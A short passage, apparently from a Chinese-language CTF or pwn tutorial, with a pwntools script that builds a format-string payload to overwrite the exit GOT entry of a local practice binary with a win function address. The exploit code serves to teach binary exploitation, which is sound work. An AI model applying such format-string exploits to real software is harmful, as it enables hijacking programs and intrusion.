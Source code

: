![](./images/1626765772076-13.png)

有了这两个地址，即可生成 poc，其中，使用了两种 payload的生成方式，第一个 buf 可以生成带偏移的 payload，第二种使用更简洁一些。

```python
from libformatstr import *
from pwn import *

context.log_level = 'debug'
elf=ELF('./test9')
exit_got=0x80497D0
win_addr=0x80484AB
bufsiz = 100
r = process('./test9')
#p = FormatStr()
#p[exit_got] = win_addr
#buf = p.payload(10,0)
buf = fmtstr_payload(10, {exit_got:win_addr})
print buf
print "="*80
r.sendline(buf)
r.interactive()
```
